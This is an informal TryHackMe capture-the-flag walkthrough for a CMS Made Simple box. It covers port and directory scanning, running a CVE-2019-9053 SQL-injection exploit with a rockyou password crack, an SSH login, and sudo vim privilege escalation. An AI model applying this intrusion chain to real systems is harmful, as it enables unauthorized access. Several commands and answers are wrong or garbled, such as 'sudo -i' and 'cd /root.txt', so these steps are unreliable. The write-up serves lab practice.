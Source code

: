 # Tryhackme
Q1: How many services are running under port 1000?
Sol: nmap -sV -sC ip -p1-1000

Q2: What is running on the higher port?
Sol: nmap ip , its need name of port not number 
Q3: What’s the CVE you’re using against the application?
to find that we need to make gobuster bez when put nmuber of port next to ip nothing appear so 
gobuster dir -u http:ip:number_of_port -w /usr/share/wordlists/dirbuster/directory-list-
2.3-medium.txt -t 100
we get simple.txt 
now put in in link 
http:ip/simple.txt 
to get name of devlop web 
CMS made simple 2.2.8
search in google to get cve 
Sol:CVE-2019–9053
Q4: To what kind of vulnerability is the application vulnerable?
the website for cve its mean sql 
Sol: sqli 
Q5:What’s the password?
we have exploit must start download it in my device 
make that to download it 
python ex.py -u http:ip/simple.txt  --crack -w /usr/share/wordlists/rockyou.txt
fix python codr in print code ()
Sol:secret 

Q6:Where can you login with the details obtained?
try ssh ip its work 
Sol:SSH
ssh username@ip -p 2222
id 
ls 
Q7:What’s the user flag?
dir 
pwd 

cat user.txt
sol:user.txt
Q8:Is there any other user in the home directory? What’s its name?
cd .. 
ls 
sol:
sunbath
Q9: What can you leverage to spawn a privileged shell?
sudo -i
We can see the user “mitch” can run /usr/bin/vim without a password. With that information, let’s check out GTFOBins and see if we can use that for privesc.
Sol:vim
Q10:What’s the root flag?

root.txt
Sol:cd /root.txt
